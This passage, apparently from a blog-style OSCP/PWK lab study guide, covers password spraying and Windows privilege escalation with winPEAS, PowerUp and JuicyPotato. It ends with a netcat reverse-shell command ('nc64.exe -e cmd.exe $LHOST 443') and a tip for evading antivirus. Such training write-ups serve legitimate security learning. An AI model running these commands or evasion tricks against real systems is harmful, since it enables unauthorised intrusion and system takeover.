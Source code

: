 **Password spraying**

One of the fun -and frustrating- factors in the PWK labs is the inter-relation between machines. I would strongly recommend keeping an elaborate master-password list of all the passwords and Windows hashes you found, so that you can occasionally use those to see if passwords are re-used anywhere. Tools like Hydra, CrackMapExec, or Metasploit can be used to do this effectively.

## Privilege Escalation

Privilege escalation is entirely different for Windows and Linux systems. In general, it pays to have an eye for detail and a large arsenal of tools that can help enumerate and exploit.

> Again, don’t forget to 👏ENUMERATE👏EVERYTHING👏

### Windows

I generally check my permissions (`whoami /all`) and the filesystem (`tree /f /a` from the `C:\Users` directory) for quick wins or interesting files (especially user home folder and/or web directories). If I don’t find anything, I then run a tool like `winPEAS.exe` (from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)) to identify any vulnerabilities. Things to look for in enumeration results:

- Default credentials, try them to pivot to other users.
- Open ports, are there any services that are listening on 127.0.0.1 only? Look for exploits.
- Running software, what is non-default? Look for exploits.
- Unquoted service paths, do they exist? Could you write a malicious binary and restart affected services?
- Modifiable service binaries, do they exist? Do they run as `SYSTEM` or an admin user?

If nothing obvious comes out of `WinPEAS`, I usually run `Invoke-AllChecks` from [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc), which does similar checks but sometimes also catches additional vulnerabilities.

If all else fails I start looking for OS-level exploits, especially on older systems. [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) helps for this: you can run it from Kali and only need the output of `SystemInfo`. It also helps to sometimes google for privilege escalation vulnerabilities for the exact OS version - an interesting example I used once for PWK is [ComaHawk](https://github.com/apt69/COMahawk) (works on relatively recent Windows 10 systems).

Some other notable examples are discussed in the sections below.

### JuicyPotato

Relevant if you have the `SeImpersonatePrivilege` and the OS version is *older than* Server 2019 or Windows 10. I’ve had the biggest successes by using a neutral binary such as `nc.exe` or `nc64.exe` from [here](https://eternallybored.org/misc/netcat/). If you create a `bat` file with the command call, it should evade most AV and give you a privileged shell.

Grab a CLSID from [here](https://ohpe.it/juicy-potato/CLSID/), it may take a couple of different attempts to get a working CLSID.

`# On target system, after copying required binaries
echo C:\temp\nc64.exe -e cmd.exe $LHOST 443 > rev.bat
.\JuicyPotato.exe -l 1337 -p C:\temp\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`
